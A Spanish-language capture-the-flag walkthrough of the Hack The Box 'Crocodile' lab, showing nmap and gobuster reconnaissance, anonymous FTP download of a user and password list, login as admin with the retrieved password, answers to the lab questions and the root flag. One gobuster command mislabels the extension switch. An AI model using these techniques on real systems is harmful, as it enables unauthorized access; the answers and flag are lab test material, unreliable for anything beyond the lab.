 ```yaml
---
title: HTB - Crocodile
date: 2022-06-21
categories: [Hack The Box, Starting Point]
tag: [Web, Sql, Starting Point - Tier 2]
img_path: /assets/img/htb/crocodile
image:
   path: crocodile.png
   width: 321
   height: 170
---
```

<h2 style="color:#74b4f4">Escaneo</h2>
---
Realizamos un escaneo de `nmap` para identificar los puertos abiertos y servicios.

```console
nmap 10.129.79.250 -sC -sV -v

-sC: empleamos scripts predeterminados en el escaneo
```

Resultado del escaneo:

```console
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-27 02:02 CDT
NSE: Loaded 155 scripts for scanning.
NSE: Script Pre-scanning.
Nmap scan report for 10.129.79.250
Host is up (0.42s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.16.14
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 ftp      ftp            33 Jun 08  2021 allowed.userlist
|_-rw-r--r--    1 ftp      ftp            62 Apr 20  2021 allowed.userlist.passwd
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Smash - Bootstrap Business Template
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-favicon: Unknown favicon MD5: 1248E68909EAE600881B8DB1AD07F356
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Unix

NSE: Script Post-scanning.
Initiating NSE at 02:03
Completed NSE at 02:03, 0.00s elapsed
Initiating NSE at 02:03
Completed NSE at 02:03, 0.00s elapsed
Initiating NSE at 02:03
Completed NSE at 02:03, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 60.95 seconds
```

Existen 2 puertos abiertos en la máquina objetivo, el puerto 80 corriendo un servidor web Apache y el puerto 21 corriendo un servidor ftp. Primero vamos a visitar el servidor web a través del navegador.

![](Pasted image 20220427025211.png)

Navegando por la página no pude encontrar un formulario, así que vamos a utilizar la herramienta <b style="color:#800000">gobuster</b> que utiliza <b style="color:#800000">brute-forcing</b> para descubrir directorios y archivos en un servidor web.

```console
gobuster -u {target ip} -w /usr/share/wordlists/directory-list-2.3-small.txt -w php 
-t 100
```

Utilizarémos <b style="color:#800000">directory-list-2.3-small.txt</b> para realizar un descubrimiento más rápido y especificaremos que busque además archivos <b style="color:#800000">php</b>.

```console
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.10.63
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
2022/04/27 03:01:47 Starting gobuster in directory enumeration mode
===============================================================
/login.php            (Status: 200) [Size: 1577]
/assets               (Status: 301) [Size: 313] [--> http://10.129.10.63/assets/]
/css                  (Status: 301) [Size: 310] [--> http://10.129.10.63/css/]   
/js                   (Status: 301) [Size: 309] [--> http://10.129.10.63/js/]    
/logout.php           (Status: 302) [Size: 0] [--> login.php]                    
/config.php           (Status: 200) [Size: 0]                                    
/fonts                (Status: 301) [Size: 312] [--> http://10.129.10.63/fonts/] 
/dashboard            (Status: 301) [Size: 316] [--> http://10.129.10.63/dashboard/]
```

Hemos descubierto un archivo llamado <b style="color:#800000">login.php</b>, ahora tenemos un vector de ataque para obtener la flag.

![](Pasted image 20220427030623.png)
![](Pasted image 20220427030556.png)

Podemos intentar una SQL Injection pero gracias al escaneo realizado previamente podemos ver que dentro del servidor <b style="color:#800000">ftp</b> hay dos archivos que pueden contener usuarios y sus respectivas contraseñas para iniciar sesión correctamente.
Accedemos al servidor ftp de manera anónima, descargamos los archivos y vemos su contenido.

```console
ftp {target ip}
```

```console
Connected to 10.129.10.63.
220 (vsFTPd 3.0.3)
Name (10.129.10.63:epsylon): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||43390|)
150 Here comes the directory listing.
-rw-r--r--    1 ftp      ftp            33 Jun 08  2021 allowed.userlist
-rw-r--r--    1 ftp      ftp            62 Apr 20  2021 allowed.userlist.passwd
226 Directory send OK.
ftp> get allowed.userlist
local: allowed.userlist remote: allowed.userlist
229 Entering Extended Passive Mode (|||47042|)
150 Opening BINARY mode data connection for allowed.userlist (33 bytes).
100% |*****************************************************************************|    33        0.20 KiB/s    00:00 ETA
226 Transfer complete.
33 bytes received in 00:00 (0.04 KiB/s)
ftp> get allowed.userlist.passwd
local: allowed.userlist.passwd remote: allowed.userlist.passwd
229 Entering Extended Passive Mode (|||46268|)
150 Opening BINARY mode data connection for allowed.userlist.passwd (62 bytes).
100% |*****************************************************************************|    62        0.38 KiB/s    00:00 ETA
226 Transfer complete.
62 bytes received in 00:00 (0.09 KiB/s)
```
![](Pasted image 20220427031617.png)

![](Pasted image 20220427031638.png)

Ingresamos el usuario <b style="color:#800000">admin</b> y su contraseña <b style="color:#800000">rKXM59ESxesUFHAd</b> en el formulario.

![](Pasted image 20220427032028.png)

![](Pasted image 20220427031940.png)


<h2 style="color:#74b4f4">Preguntas</h2>
---
1. ¿Qué interruptor de escaneo nmap emplea el uso de scripts predeterminados durante un escaneo?
	<b style="color:#8B2F97">-sC</b>

2. ¿Qué versión de servicio se encuentra ejecutándose en el puerto 21?
	<b style="color:#8B2F97">vsftpd 3.0.3</b>

3. ¿Qué código FTP se nos devuelve para el mensaje "Inicio de sesión FTP anónimo permitido"?
	<b style="color:#8B2F97">230</b>

4. ¿Qué comando podemos usar para descargar los archivos que encontramos en el servidor FTP?
	<b style="color:#8B2F97">get</b>

5. ¿Cuál es uno de los nombres de usuario que suenan con mayor privilegio en la lista que recuperamos?
	<b style="color:#8B2F97">admin</b>

6. ¿Qué versión de Apache HTTP Server se está ejecutando en el host de destino?
	<b style="color:#8B2F97">2.4.41</b>

7. ¿Cuál es el nombre de un útil complemento de análisis de sitios web que podemos instalar en nuestro navegador?
	<b style="color:#8B2F97">Wappalyzer</b>

8. ¿Qué interruptor podemos usar con gobuster para especificar que estamos buscando tipos de archivo específicos?
	<b style="color:#8B2F97">-x</b>

9. ¿Qué archivo hemos encontrado que pueda proporcionarnos un punto de apoyo en el objetivo?
	<b style="color:#8B2F97">login.php</b>

**Root Flag:** <b style="color:#FF8B00">c7110277ac44d78b6a9fff2232434d16</b>
	
![](Pasted image 20220427022458.png)